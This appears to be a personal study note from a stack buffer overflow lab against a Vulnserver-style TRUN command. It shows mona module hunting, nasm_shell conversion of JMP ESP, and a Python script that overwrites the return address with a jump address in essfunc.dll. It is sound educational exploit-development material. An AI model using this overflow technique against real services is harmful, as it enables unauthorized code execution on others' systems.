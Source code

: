 ```bash
chmod +x 2.py #make executable
./2.py #run

#observe immunity
```
- in immunity, we are now interested in the hex dump
	- registers >> highlight ESP >> right click >> follow in dump
	- analyze hexdump to find anything out of place, if any

### Finding the right module
looking for dll or something similar with no memory protections
can use a tool mona modules with immunity to find them
https://github.com/corelan/mona
- need mona.py
	- place in specific folder in immunity
	- `c > program files (86) > immunity inc > immunity debugger > pycommands`
- in immunity, type in text prompt at bottom to start modules and identify false protections
	- `!mona modules`
- in kali - need to locate nasm_shell to convert assembly language to hexcode
```bash
locate nasm_shell
/usr/bin/msf-nasm_shell
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb #copy this one

#paste ruby script to start shell
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

JMP ESP
#hex equiv = FFE4
```
- back to immunity > at bottom add value from nasm conversion
	- `!mona find -s "\xff\xe4 -m essfunc.dll`
	- we are looking for return addresses (under results)
		- take each one by to one to see what works
- in kali, need to edit python script to try return addresses
```python
import sys, socket

shellcode = "A" * 2003 + "\xaf\x11\x50\x62"

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.1.35',9999))
	s.send(('TRUN /.:/' + shellcode))
	s.close()
	
except:
	print "Error connecting to server"
	sys.exit()
```
- in immunity
	- click blue arrow to enter expression to follow >> enter value `625011af` (jump code) >> identifies code
	- once jump code found, make highlight blue by pushing F2 -- this sets the break point, will pause buffer at this exact point to wait for our instruction
- back in kali >> run script
```bash
gedit 2.py #save script with pattern_Create value 
chmod +x 2.py #make executable
./2.py #run

#observe immunity
```
- immunity at bottom shows `breakpoint at essfunc.625011af`
